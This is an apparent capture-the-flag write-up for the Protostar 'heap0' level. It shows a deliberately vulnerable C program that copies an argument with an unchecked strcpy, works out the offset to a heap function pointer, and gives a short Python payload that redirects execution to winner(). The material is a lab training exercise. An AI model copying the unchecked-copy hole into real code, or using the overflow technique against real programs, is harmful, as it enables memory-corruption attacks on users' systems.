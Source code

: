 source code
```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();
}
```

`argv[1]` is copied to `d->name` without boundary check, so we can use it to overflow `f->fp`.

Addresses of `data` and `fp` are printed to stdout and are fixed.
```shell
Every 1.0s: ./heap0 1111                                                                       Wed Jul 26 00:14:35 2023

data is at 0x804a008, fp is at 0x804a050
level has not been passed
```


`0x50` - `0x08` is 72. 72 bytes to fill and 1 byte to overwrite `fp` to point to `winner`.

Find address of `winner`,
```
user@protostar:~$ objdump -d heap0 | grep winner
08048464 <winner>:
08048478 <nowinner>:
```

overflow diagram,
```

0x804a050 [0x8048464] fp
          ↑
           A...
           AAAA
           AAAA 
0x804a008 [AAAA] data
          ↑
```

`sc.py`
```python
from __future__ import print_function
from struct import pack

offset = 72
payload = b'A' * offset
payload += pack('<I', 0x8048464)

print(payload, end='')
```

```shell
user@protostar:~$ ./heap0 $(python sc.py)
data is at 0x804a008, fp is at 0x804a050
level passed
```